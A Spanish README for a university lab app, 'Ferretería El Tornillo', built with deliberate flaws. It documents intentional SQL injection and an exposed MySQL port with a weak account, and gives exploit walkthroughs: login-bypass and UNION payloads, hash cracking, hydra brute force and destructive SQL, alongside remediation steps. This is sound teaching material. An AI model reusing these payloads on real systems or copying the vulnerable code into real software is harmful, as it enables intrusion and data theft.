



# 🔧 Ferretería El Tornillo — Aplicación web con vulnerabilidades controladas

> Proyecto académico del curso **Seguridad en entornos de desarrollo** — Universidad Centroamericana "José Simeón Cañas" (UCA).
> Aplicación web de una ferretería desarrollada en **PHP sin framework** y **MySQL**, con vulnerabilidades introducidas de forma deliberada y documentada para su explotación en un entorno de laboratorio controlado.

> ⚠️ **Advertencia:** esta aplicación es insegura **a propósito**. Debe ejecutarse únicamente dentro de una máquina virtual en la red del laboratorio. No la despliegues en internet ni en una red de producción.

**Integrantes:**

| Nombre | Carné |
|---|---|
| Gabriel Alejandro Batres Flores | 00103923 |
| Marden Eliuth Larios Orellana | 00029223 |
| Guillermo Alejandro Hernandez Dubon | 00106423 |
| Josue Eli Gomez Hernandez | 00074821 |
| Diego Alejandro Castro Recinos | 00182122 |

**Repositorio:** https://github.com/Gaba3/Anonymonos_Proyecto_SED

---

## Tabla de contenido

1. [Descripción del proyecto](#1-descripción-del-proyecto)
2. [Arquitectura](#2-arquitectura)
3. [Guía de instalación y despliegue](#3-guía-de-instalación-y-despliegue)
4. [Usuarios y credenciales de prueba](#4-usuarios-y-credenciales-de-prueba)
5. [Vulnerabilidades implementadas](#5-vulnerabilidades-implementadas)
6. [Flujo de trabajo en GitHub](#6-flujo-de-trabajo-en-github)

---

## 1. Descripción del proyecto

**Ferretería El Tornillo** es una tienda en línea de artículos de ferretería (herramientas, material eléctrico, plomería, pinturas y tornillería). Los visitantes pueden explorar el catálogo; los usuarios registrados pueden comprar y generar facturas; los vendedores publican productos y el administrador gestiona todo el sistema.

### Roles del sistema

| Rol | Acceso | Funcionalidades |
|---|---|---|
| **Público** (sin sesión) | Index, Login, Register | Ver el catálogo, buscar productos, registrarse e iniciar sesión. |
| **Comprador** | Vista de comprador | Seleccionar productos, agregarlos al carrito, generar una factura con el detalle de la compra y consultar su historial de facturas. |
| **Vendedor** | Vista de vendedor | Cargar productos (nombre, descripción, precio, stock, categoría e imagen) y ver los productos que ha publicado. |
| **Administrador** | Vista de administrador | CRUD completo de productos y de usuarios (incluido el cambio de rol). |

Todas las vistas restringidas por rol requieren una sesión iniciada; si un usuario intenta entrar a una vista que no corresponde a su rol, se le redirige al login.

### Flujo de navegación



---

## 2. Arquitectura

### Tecnologías

| Capa | Tecnología | Versión | Notas |
|---|---|---|---|
| Sistema operativo | Ubuntu Server LTS | 24.04 | Ejecutado en una máquina virtual (VirtualBox). |
| Servidor web | Apache HTTP Server | 2.4 | Con `mod_php`. |
| Lenguaje | PHP (sin framework) | 8.3 | Acceso a datos con la extensión `mysqli`, sin ORM. |
| Base de datos | MySQL | 8.0 | En un contenedor **Docker**. |
| Contenedores | Docker + Docker Compose | Repositorio de Ubuntu | Solo para la base de datos. |
| Interfaz | HTML5, CSS3, JavaScript, Bootstrap 5 | 5.3 | Bootstrap se incluye localmente en `public/assets/` (sin CDN). |
| Control de versiones | Git + GitHub | — | Flujo de trabajo GitFlow. |

**Tecnologías que no se usan, por restricción del proyecto:** frameworks con protecciones integradas (Laravel, Symfony, etc.), ORM o generadores de consultas, librerías de sanitización o seguridad, CMS y BaaS, y código vulnerable de terceros (DVWA, Juice Shop, etc.). Toda la lógica de autenticación, roles, productos y facturas está programada por el equipo.

### Diagrama de arquitectura



La aplicación PHP corre directamente sobre Apache en la VM y se conecta a MySQL, que corre en un contenedor Docker con el puerto 3306 publicado. La línea punteada representa la exposición intencional del puerto de la base de datos hacia la red (ver [sección 5](#5-vulnerabilidades-implementadas)).

### Modelo de base de datos



### Estructura de carpetas

```
ferreteria/
├── docker/
│   └── docker-compose.yml        # Contenedor de MySQL
├── database/
│   ├── 01_schema.sql             # Creación de tablas
│   └── 02_seed.sql               # Categorías, productos y usuarios de prueba
├── public/                       # DocumentRoot de Apache
│   ├── index.php                 # Catálogo público y buscador
│   ├── login.php
│   ├── register.php
│   ├── logout.php
│   ├── comprador/
│   │   ├── catalogo.php
│   │   ├── carrito.php
│   │   ├── factura.php           # Detalle de una factura
│   │   └── historial.php
│   ├── vendedor/
│   │   ├── mis-productos.php
│   │   └── cargar-producto.php
│   ├── admin/
│   │   ├── index.php             # Panel
│   │   ├── productos.php         # CRUD de productos
│   │   └── usuarios.php          # CRUD de usuarios
│   ├── uploads/                  # Imágenes subidas por vendedores
│   └── assets/
│       ├── css/                  # Bootstrap y estilos propios
│       ├── js/
│       └── img/                  # Logo e imágenes del sitio
├── includes/
│   ├── config.php                # Credenciales de conexión
│   ├── db.php                    # Conexión mysqli
│   ├── auth.php                  # Manejo de sesión y verificación de rol
│   ├── header.php
│   └── footer.php
├── server/
│   └── apache/
│       └── ferreteria.conf       # VirtualHost de Apache
├── install.sh                    # Script de instalación automatizada
└── README.md
```

### Requerimientos y herramientas utilizadas

**Entorno de desarrollo (equipo):**

| Herramienta | Uso |
|---|---|
| Pop!_OS / Ubuntu 24.04 | Sistema operativo de desarrollo |
| Visual Studio Code | Editor de código |
| Extensión PHP Intelephense (VS Code) | Autocompletado y análisis de PHP |
| Git + GitHub | Control de versiones (flujo GitFlow) |
| Docker + Docker Compose | Contenedor de MySQL |
| VirtualBox 7.x | Máquina virtual de despliegue (Ubuntu Server) |
| Cliente `mysql` (o DBeaver) | Inspección y pruebas de la base de datos |

**Software del servidor (VM de entrega):** Ubuntu Server 24.04, Apache 2.4 (`mod_php`),
PHP 8.3 (`mysqli`), MySQL 8.0 (contenedor Docker), Bootstrap 5.3 (local, sin CDN).
---

## 3. Guía de instalación y despliegue

Tiempo objetivo de instalación: **menos de 20 minutos** (el laboratorio concede 30).

### 3.1 Requisitos de la máquina virtual

| Recurso | Valor |
|---|---|
| Hipervisor | VirtualBox 7.x |
| Imagen | `ubuntu-24.04.x-live-server-amd64.iso` |
| CPU | 2 vCPU |
| RAM | 2 GB (4 GB recomendado) |
| Disco | 20 GB |
| Red | Adaptador puente o según las indicaciones del docente — _pendiente de confirmar_ |

### 3.2 Crear la máquina virtual

1. En VirtualBox: **Nueva** → nombre `ferreteria-server`, tipo Linux, Ubuntu (64-bit).
2. Asignar los recursos de la tabla anterior y montar la ISO de Ubuntu Server.
3. Configurar el adaptador de red según las indicaciones del docente.
4. Instalar Ubuntu Server con las opciones por defecto y, cuando el instalador lo ofrezca, marcar **Install OpenSSH server**.
5. Crear el usuario del sistema (por ejemplo `ferreteria`) y reiniciar.
6. Verificar la IP asignada:
   ```bash
   ip a
   ```

### 3.3 Instalar paquetes

```bash
sudo apt update
sudo apt install -y apache2 php libapache2-mod-php php-mysql git docker.io docker-compose-v2
sudo systemctl enable --now apache2 docker
sudo usermod -aG docker $USER
newgrp docker
```

### 3.4 Clonar el repositorio

```bash
sudo git clone https://github.com/Gaba3/Anonymonos_Proyecto_SED.git /var/www/ferreteria
sudo chown -R $USER:$USER /var/www/ferreteria
cd /var/www/ferreteria
```

### 3.5 Levantar la base de datos

El contenedor carga automáticamente los scripts de `database/` la primera vez que se inicia (se montan en `/docker-entrypoint-initdb.d`).

```bash
cd /var/www/ferreteria/docker
docker compose up -d
docker compose ps          # Debe mostrar el contenedor de MySQL en estado "running"
```

> **Si la VM no tiene salida a internet:** la imagen se lleva preparada desde antes.
> ```bash
> # En un equipo con internet, antes del día de la entrega:
> docker pull mysql:8.0
> docker save mysql:8.0 -o mysql-8.0.tar
> # En la VM del laboratorio:
> docker load -i mysql-8.0.tar
> ```

### 3.6 Configurar la conexión

Revisar que `includes/config.php` apunte al contenedor:

```php
define('DB_HOST', '127.0.0.1');
define('DB_PORT', 3306);
define('DB_NAME', 'ferreteria');
define('DB_USER', 'ferreteria_app');
define('DB_PASS', 'ferreteria');   // igual que MYSQL_PASSWORD en docker-compose.yml
```

### 3.7 Configurar Apache

```bash
sudo cp /var/www/ferreteria/server/apache/ferreteria.conf /etc/apache2/sites-available/
sudo a2dissite 000-default.conf
sudo a2ensite ferreteria.conf
sudo systemctl reload apache2
```

### 3.8 Permisos de la carpeta de imágenes

```bash
sudo chown -R www-data:www-data /var/www/ferreteria/public/uploads
sudo chmod 755 /var/www/ferreteria/public/uploads
```

### 3.9 Verificar el despliegue

```bash
curl -I http://localhost           # Debe responder HTTP 200
sudo ss -tulpn                     # Puertos en escucha
```

Desde otro equipo de la red del laboratorio, abrir en el navegador `http://<IP-de-la-VM>`.

---

## 4. Usuarios y credenciales de prueba

Estos usuarios se crean con `database/02_seed.sql`.

| Rol | Correo | Contraseña |
|---|---|---|
| Administrador | `admin@eltornillo.local` | `Admin123` |
| Vendedor | `vendedor@eltornillo.local` | `Vendedor123` |
| Comprador | `comprador@eltornillo.local` | `Comprador123` |
| Comprador | `comprador2@eltornillo.local` | `Comprador123` |

**Base de datos (MySQL en Docker):**

| Usuario | Contraseña | Uso |
|---|---|---|
| `ferreteria_app` | `ferreteria` (débil **a propósito** — ver V2) | Conexión de la aplicación; accesible en remoto (`@'%'`) |
| `root` | `R00t.Tornillo.2026` | Administración del contenedor; **solo** desde `localhost` |

> La contraseña de `ferreteria_app` es intencionalmente débil y la cuenta es accesible desde la red: forma parte de la vulnerabilidad V2 (sección 5). `root` no es accesible en remoto.

---

## 5. Vulnerabilidades implementadas

El proyecto incluye **dos** vulnerabilidades, introducidas y documentadas de forma deliberada. Ambas son **explotables de extremo a extremo** desde la red del laboratorio. El resto del código es correcto y seguro (sentencias preparadas, `htmlspecialchars()` al imprimir, verificación de rol y de propiedad en cada vista restringida), para que estas dos sean las únicas puertas de entrada.

| # | Vulnerabilidad | Nivel | Ubicación |
|---|---|---|---|
| V1 | Inyección SQL (SQLi) | Código | `public/login.php`, `public/index.php` (buscador) |
| V2 | Base de datos expuesta a la red con cuenta débil | Servidor | `docker/docker-compose.yml` |

> **Nota sobre las pistas.** Como el proyecto también se usa como ejercicio de ataque, en el código **que llega al navegador** se dejaron pistas sutiles (no obvias) para que un atacante atento reconozca cada vulnerabilidad sin que se le entregue el exploit resuelto. Se describen en cada vulnerabilidad, en el apartado *Pistas dejadas*. Los comentarios de PHP (`//`, `/* */`) y de SQL (`--`) **no** se envían al navegador: sirven para el equipo de desarrollo y no cuentan como pistas para el atacante.

### V1 — Inyección SQL

**Dónde se encuentra:**

- **Login** (`public/login.php`): el correo y la contraseña del formulario se insertan directamente en la consulta de autenticación.
- **Buscador del catálogo** (`public/index.php`): el término de búsqueda enviado por `GET` se inserta directamente en la consulta que lista los productos.

**Cómo se introdujo:** las consultas se construyen concatenando la entrada del usuario dentro de la cadena SQL y se ejecutan con `mysqli_query()`, sin sentencias preparadas (`prepare` / `bind_param`) ni escape de caracteres especiales.

```php
// public/login.php — consulta vulnerable (intencional)
$correo   = $_POST['correo'];
$password = $_POST['password'];
$sql = "SELECT id, nombre, rol FROM usuarios
        WHERE correo = '$correo' AND password = MD5('$password')";
$resultado = mysqli_query($conn, $sql);
```

```php
// public/index.php — buscador vulnerable (intencional)
$q = $_GET['q'] ?? '';
$sql = "SELECT id, nombre, descripcion, precio, imagen FROM productos
        WHERE nombre LIKE '%$q%'";
```

**Consideraciones de diseño:** los mensajes de error de MySQL se muestran en pantalla (`includes/config.php` → `MOSTRAR_ERRORES = true`) para facilitar la identificación de la vulnerabilidad durante la etapa de ataque. Además, el campo de correo del login usa `type="text"` (y no `type="email"`) a propósito, para que el navegador no rechace las comillas antes de enviar el formulario.

**Cómo explotarla — paso a paso.**
 
*Requisito previo:* un navegador web y la IP de la VM (`http://<IP-de-la-VM>`). No hace falta ninguna herramienta extra; todo se hace desde el navegador.
 
**Escenario A — Saltar el login sin saber la contraseña (bypass de autenticación)**
 
1. Abrir `http://<IP-de-la-VM>/login.php`.
2. En el campo **Correo** escribir la carga maliciosa, y en **Contraseña** cualquier texto:
```
Correo:     admin@eltornillo.local' -- -
Contraseña: loquesea
```
3. Pulsar **Entrar**.
4. **Qué pasa por dentro:** la consulta se arma como
```sql
SELECT id, nombre, rol FROM usuarios
WHERE correo = 'admin@eltornillo.local' -- -' AND password = MD5('loquesea')
```
   La secuencia `-- ` inicia un comentario SQL, así que la comprobación de la contraseña (`AND password = ...`) queda anulada. La consulta devuelve la fila del administrador y la aplicación abre su sesión.
5. **Impacto:** se entra al **panel de administrador** (`admin/panel.php`) sin credenciales válidas, con control total sobre productos y usuarios.
6. **Variante sin conocer ningún correo:** escribir `' OR '1'='1' -- -` en el campo de correo. La condición `'1'='1'` siempre es verdadera y devuelve la primera fila de la tabla (el administrador).
 
**Escenario B — Detectar la inyección en el buscador**
 
1. Abrir el catálogo (`http://<IP-de-la-VM>/index.php`).
2. En el buscador escribir una sola comilla: `'` y buscar.
3. **Qué pasa:** aparece en pantalla un **error de MySQL** (sintaxis). Ese error es la confirmación de que el texto llega sin sanear hasta la consulta: la vulnerabilidad está presente.
**Escenario C — Robar los usuarios y sus contraseñas (extracción de datos con UNION)**
 
1. En el buscador del catálogo, probar cuántas columnas devuelve la consulta con `' ORDER BY 6 -- -`, subiendo el número hasta que deje de dar error (aquí son 6 columnas).
2. Inyectar una consulta `UNION` que lea la tabla `usuarios`. En la URL:
```
http://<IP-de-la-VM>/index.php?q=' UNION SELECT 1,correo,password,rol,5,6 FROM usuarios -- -
```
3. **Qué pasa:** el listado de "productos" ahora muestra los **correos, los hashes MD5 y el rol** de todos los usuarios, porque la segunda consulta se une a la primera.
4. **Romper los hashes:** los valores de `password` son MD5. Se copian a un archivo y se crackean:
```bash
echo 'HASH_COPIADO' > hashes.txt
john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
# o pegar el hash en un servicio en línea de MD5
```
   Las contraseñas de prueba (`Admin123`, etc.) caen de inmediato.
5. **Impacto:** con los correos y las contraseñas ya en claro, el atacante inicia sesión como **cualquier usuario** (incluido el administrador) por la vía normal, sin dejar rastro de inyección.
 
**Pistas dejadas (visibles para el atacante):**
 
- El **error de MySQL** que aparece al escribir una comilla en el login o en el buscador (la pista más fuerte: revela que la entrada se usa sin sanear).
- Un **comentario HTML** junto al buscador en `index.php` (visible con *Ver código fuente*): `<!-- buscador: filtra productos por el texto que se escribe, directo contra la tabla productos -->`, que insinúa que el texto va directo a la consulta.
**Cómo evitarla / solventarla:**
 
1. **Sentencias preparadas con parámetros** en todas las consultas que reciban datos del usuario, de modo que la entrada nunca se concatene en la cadena SQL:
```php
// Login seguro
$stmt = mysqli_prepare($conn, 'SELECT id, nombre, rol, password FROM usuarios WHERE correo = ?');
mysqli_stmt_bind_param($stmt, 's', $correo);
mysqli_stmt_execute($stmt);
// ...y comparar con password_verify($password, $hash)
 
// Buscador seguro
$stmt = mysqli_prepare($conn, 'SELECT ... FROM productos WHERE nombre LIKE ?');
$patron = '%' . $q . '%';
mysqli_stmt_bind_param($stmt, 's', $patron);
```
2. **Almacenar contraseñas con `password_hash()` / `password_verify()`** (bcrypt/argon2) en lugar de MD5, y ampliar la columna `usuarios.password` (p. ej. `VARCHAR(255)`).
3. **Ocultar los errores de base de datos al usuario** en producción (`display_errors = Off`), registrándolos solo en el log del servidor, y devolver un mensaje genérico.
4. **Validar y tipar la entrada** (longitud, formato de correo) como defensa en profundidad, sin que sustituya a las sentencias preparadas.

1. **Saltar el login (autenticación).** En el campo de correo escribir una entrada que cierre la comilla y comente el resto:
   ```
   Correo:    admin@eltornillo.local' -- -
   Contraseña: (cualquier cosa)
   ```
   La consulta queda `... WHERE correo = 'admin@eltornillo.local' -- -' AND password = MD5('...')`; todo lo que sigue a `-- ` se ignora y se inicia sesión sin saber la contraseña. También funciona `' OR '1'='1' -- -`, que devuelve la primera fila (el administrador).
2. **Reconocer la inyección en el buscador.** Escribir una comilla simple (`'`) en el buscador del catálogo provoca un error de MySQL visible en pantalla: es la señal de que la entrada llega sin escapar a la consulta.
3. **Extraer datos con UNION.** A través del buscador (`index.php?q=...`), con una carga tipo `' UNION SELECT 1,correo,password,rol,5,6 FROM usuarios -- -` se vuelcan los correos y los hashes MD5 de todos los usuarios. Los hashes MD5 de contraseñas débiles (`Admin123`, etc.) se rompen con cualquier servicio o diccionario, lo que da acceso a todas las cuentas de la aplicación.

**Pistas dejadas (visibles para el atacante):**

**Cómo se introdujo y por qué es explotable.** No basta con "dejar un puerto abierto": la exposición se diseñó para que lleve a un compromiso real y acotado de la base de datos. Se combinan cuatro condiciones:
 
1. **Puerto publicado en todas las interfaces.** El puerto 3306 del contenedor se publica en `0.0.0.0` en lugar de `127.0.0.1`, por lo que MySQL responde a cualquier equipo de la red del laboratorio (el banner de versión se ve con `nmap -sV`).
```yaml
# docker/docker-compose.yml — exposición intencional
services:
  db:
    image: mysql:8.0
    ports:
      - "3306:3306"        # Debería ser "127.0.0.1:3306:3306"
```
2. **Cuenta accesible en remoto.** La imagen de MySQL crea la cuenta de la aplicación como `'ferreteria_app'@'%'`, es decir, válida desde cualquier host (no solo `localhost`).
3. **Contraseña débil.** Esa cuenta usa la contraseña `ferreteria` (igual al nombre de la base de datos): adivinable y fácil de obtener por fuerza bruta con un diccionario.
4. **Privilegios amplios sobre la base.** `ferreteria_app` tiene **todos los privilegios sobre `ferreteria.*`**, de modo que, una vez autenticado, el atacante lee y modifica toda la información del proyecto.
**Alcance acotado (importante).** La exposición no compromete el equipo anfitrión ni el resto de la red: la cuenta `root` **no** es accesible en remoto (el contenedor no define `MYSQL_ROOT_HOST`, así que root queda en `localhost`), y `ferreteria_app` **no** tiene los privilegios `FILE` ni `SUPER`, por lo que no puede leer/escribir archivos del sistema ni salir de la base `ferreteria`.
 
**Detalle adicional:** Docker escribe sus propias reglas de `iptables`, por lo que un puerto publicado queda accesible aunque el firewall `ufw` esté activo y no lo permita.
 
**Puertos de la VM:**
 
| Puerto | Servicio | ¿Necesario? |
|---|---|---|
| 22/tcp | SSH | Sí, para administración |
| 80/tcp | Apache (aplicación) | Sí |
| 3306/tcp | MySQL (Docker) | **No** — expuesto intencionalmente |
 
**Cómo explotarla — paso a paso.**
 
*Requisito previo:* un equipo en la misma red del laboratorio con `nmap`, `hydra` y el cliente `mysql` instalados (en Kali ya vienen; en Ubuntu: `sudo apt install nmap hydra mysql-client`). Se necesita la IP de la VM.
 
**Paso 1 — Descubrir el servicio (reconocimiento)**
 
1. Escanear el puerto 3306 de la VM para confirmar que MySQL está expuesto y ver su versión:
```bash
nmap -sV -p 3306 <IP-de-la-VM>
```
2. **Qué pasa:** la salida muestra `3306/tcp open  mysql  MySQL 8.0.x`. Que el puerto responda desde otro equipo **ya es la falla**: una base de datos nunca debería verse desde la red.
**Paso 2 — Obtener la contraseña de la cuenta (fuerza bruta)**
 
1. La cuenta `ferreteria_app` es accesible en remoto y su contraseña es débil. Probar un diccionario contra ella:
```bash
nmap -p 3306 --script mysql-brute <IP-de-la-VM>
# alternativa con hydra:
hydra -l ferreteria_app -P /usr/share/wordlists/rockyou.txt <IP-de-la-VM> mysql
```
2. **Qué pasa:** la herramienta reporta credenciales válidas (`ferreteria_app` / `ferreteria`). Al ser la contraseña igual al nombre del sitio, cae casi de inmediato; incluso se adivina a mano.
**Paso 3 — Conectarse a la base de datos**
 
1. Conectarse directamente desde el equipo atacante con el cliente `mysql`:
```bash
mysql -h <IP-de-la-VM> -u ferreteria_app -pferreteria ferreteria
```
2. **Qué pasa:** se obtiene una consola SQL sobre la base `ferreteria`, **sin pasar por la aplicación web**.
**Paso 4 — Leer y modificar los datos (impacto)**
 
1. Leer información sensible de clientes y usuarios:
```sql
SELECT correo, password, rol FROM usuarios;   -- correos y hashes MD5 para crackear
SELECT * FROM facturas;                        -- facturas y datos de los compradores
```
2. Manipular los datos del negocio:
```sql
UPDATE productos SET precio = 0.01;            -- cambiar todos los precios
DELETE FROM facturas;                          -- borrar el historial de ventas
UPDATE usuarios SET rol = 'admin' WHERE id = 3; -- escalar un usuario a administrador
```
3. **Impacto:** compromiso total de la información del proyecto: robo de datos de clientes, obtención de los hashes (que se cruzan con V1 para entrar como cualquiera), y alteración o borrado de productos, facturas y usuarios.
> **Alcance acotado (por diseño).** Este compromiso se limita a la base `ferreteria`. La cuenta `root` no es accesible en remoto y `ferreteria_app` no tiene privilegios `FILE`/`SUPER`, así que el atacante no puede leer archivos del sistema ni tomar control de la VM.
 
**Pistas dejadas (visibles para el atacante):**
 
- El propio **servicio MySQL en el 3306** se anuncia a la red (lo encuentra un escaneo de puertos).
- Un **comentario HTML** en el pie de página de todo el sitio (visible con *Ver código fuente*): `<!-- infra lab: apache2 + php 8.3 · los datos se guardan en mysql 8 (contenedor docker, :3306) · pendiente cerrar el puerto -->`, que orienta a escanear el puerto de la base.
**Cómo evitarla / solventarla:**
 
1. **No publicar el puerto en toda la red.** Publicarlo solo en loopback, o mejor, no publicarlo y comunicar la app con la base por una red interna de Docker:
```yaml
ports:
  - "127.0.0.1:3306:3306"   # solo accesible desde la propia VM
# o eliminar 'ports' y usar una red interna de Docker
```
2. **Contraseñas fuertes y únicas** para las cuentas de base de datos (largas, aleatorias), gestionadas fuera del repositorio (variables de entorno / secretos), nunca iguales al nombre de usuario o de la base.
3. **Mínimo privilegio.** Que `ferreteria_app` tenga solo los privilegios que necesita (`SELECT, INSERT, UPDATE, DELETE` sobre las tablas concretas) y restringir el host de la cuenta (`'ferreteria_app'@'127.0.0.1'`) en lugar de `'%'`.
4. **Firewall y segmentación.** Reglas de `iptables`/seguridad que bloqueen el 3306 hacia la red (recordando que Docker inserta sus propias reglas, por lo que hay que gestionarlo a nivel de la publicación del puerto, no solo con `ufw`).


---

## 6. Flujo de trabajo en GitHub

El repositorio sigue **GitFlow**.

| Rama | Propósito | Se crea desde | Se integra en |
|---|---|---|---|
| `main` | Versión estable de entrega | — | — |
| `develop` | Integración del desarrollo | `main` | `release/*` |
| `feature/*` | Una funcionalidad nueva | `develop` | `develop` |
| `release/*` | Preparación de una entrega | `develop` | `main` y `develop` |
| `hotfix/*` | Corrección urgente sobre producción | `main` | `main` y `develop` |

**Convenciones:**

- Nombres de rama: `feature/login`, `feature/catalogo`, `feature/crud-usuarios`, `release/1.0.0`, `hotfix/conexion-db`.
- Todo cambio entra a `develop` y a `main` mediante **Pull Request**, revisado por otro integrante.
- No se hacen commits directos a `main` ni a `develop`.
- Mensajes de commit descriptivos, con prefijo de tipo:
  - `feat:` nueva funcionalidad — `feat: agregar formulario de registro`
  - `fix:` corrección — `fix: corregir redirección por rol en login`
  - `docs:` documentación — `docs: actualizar guía de instalación`
  - `style:` diseño o formato — `style: aplicar paleta de colores al catálogo`
  - `chore:` configuración — `chore: agregar docker-compose para MySQL`
- Cada entrega se etiqueta en `main` (`v0.1.0` avance, `v1.0.0` entrega final).

---
